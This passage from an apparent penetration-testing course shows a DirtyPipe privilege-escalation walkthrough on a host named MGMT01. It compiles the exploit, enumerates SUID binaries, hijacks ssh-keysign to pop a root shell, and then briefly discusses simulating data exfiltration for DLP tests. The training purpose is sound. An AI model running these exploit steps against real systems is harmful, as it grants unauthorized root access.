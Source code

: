 Post-Exploitation

```shell-session
ssmallsadm@MGMT01:~$ gcc dirtypipe.c -o dirtypipe
ssmallsadm@MGMT01:~$ chmod +x dirtypipe
ssmallsadm@MGMT01:~$ ./dirtypipe 

Usage: ./dirtypipe SUID
```

We must run the exploit against a SUID binary to inject and overwrite memory in a root process. So first we need to search SUID binaries on the system.

Post-Exploitation

```shell-session
ssmallsadm@MGMT01:~$ find / -perm -4000 2>/dev/null

/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/fusermount

<SNIP>
```

Finally, we'll run the exploit against the `/usr/lib/openssh/ssh-keysign` SUID binary and drop into a root shell.

Post-Exploitation

```shell-session
ssmallsadm@MGMT01:~$ ./dirtypipe /usr/lib/openssh/ssh-keysign

[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))
# id
uid=0(root) gid=0(root) groups=0(root),1001(ssmallsadm)
```

From here we could perform post-exploitation of the file system to prove the level of access we achieved.

---

## Data Exfiltration Simulation

Some clients may want to test their `Data Loss Prevention` (`DLP`) capabilities, so we could experiment with various ways to exfiltrate mock data from their network to see if we are detected. We should work with the client to understand what types of data they are trying to protect and proceed accordingly. It's best to use mock data so we don't have to deal with any highly sensitive client data on our testing system.

---